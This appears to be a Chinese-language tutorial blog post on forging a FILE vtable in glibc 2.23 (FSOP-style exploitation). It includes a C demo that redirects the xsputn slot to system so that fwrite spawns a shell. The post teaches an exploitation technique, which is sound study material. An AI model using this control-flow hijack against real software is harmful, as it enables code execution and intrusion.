 ```yaml
---
layout: post
title: 'vtable伪造'
subtitle: 'vtable伪造'
date: 2021-04-01
categories: 技术
tags: FILE_related
---
```

# vtable伪造

​       libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入的，在之前的版本的利用就不叙述了。虽然libc 数据段的 vtable不可以写入，但是可以通过伪造vtable并且修改_IO_FILE_plus->vtable这个指针来实现劫持程序流程。

直接用wiki上的例子

```c
#define system_ptr 0x7ffff7a523a0;
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

**vtable 中的函数调用时会把对应的\_IO\_FILE\_plus 指针作为第一个参数传递，也就是\_flags成员变量。**

这里伪造fp的vtable指针，使其指向我们伪造好的区域，fwrite会调用\_IO\_jump\_t中偏移为0x38的指针（\__xsputn），让它指向system函数，而fp->\_flags上直接放“sh”字符串。运行fwrite时实际上去执行system("sh")。（gdb调试运行，不可直接运行，要不然system的地址不正确）

![1](/picture/FILE_related/vtable伪造/1.png)
